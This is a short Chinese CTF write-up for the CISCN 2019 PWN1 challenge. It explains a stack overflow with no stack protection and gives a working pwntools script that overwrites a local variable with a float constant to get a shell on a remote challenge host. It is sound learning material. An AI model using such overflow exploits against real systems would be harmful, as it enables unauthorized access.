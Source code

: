 # [CISCN 2019华北]PWN1

## 附件

![image-20220605163140329](C:\Users\86133\AppData\Roaming\Typora\typora-user-images\image-20220605163140329.png)

很简单的栈溢出，具体看看ida的伪代码

![image-20220605163040980](C:\Users\86133\AppData\Roaming\Typora\typora-user-images\image-20220605163040980.png)

![image-20220605163100842](C:\Users\86133\AppData\Roaming\Typora\typora-user-images\image-20220605163100842.png)

## 分析

考虑栈溢出，而且没有stack的保护，很简单很基础，将返回地址覆盖为我们指向的地址

## 脚本

```
from pwn import *
p = remote('1.14.71.254',28086)
#p=process("./c")
ret=0x0000000000400501 
add=0x41348000
sys=0x400530
payload=b'a'*(0x30+0x8)+p64(sys)
payload2=b'a'*(0x30-0x4)+p64(add)
p.sendline(payload2)
p.interactive()

```

这里之所以payload不行而payload2可以，很可能就是跳转到sys的plt地址，但是没有给binsh的参数，但是获取binsh的参数需要泄露libc，更加麻烦，这里是直接修改了值。

## 补充

在这里补充IEEE 754浮点数十六进制相互转换！！！

[IEEE 754浮点数十六进制](https://lostphp.com/hexconvert/)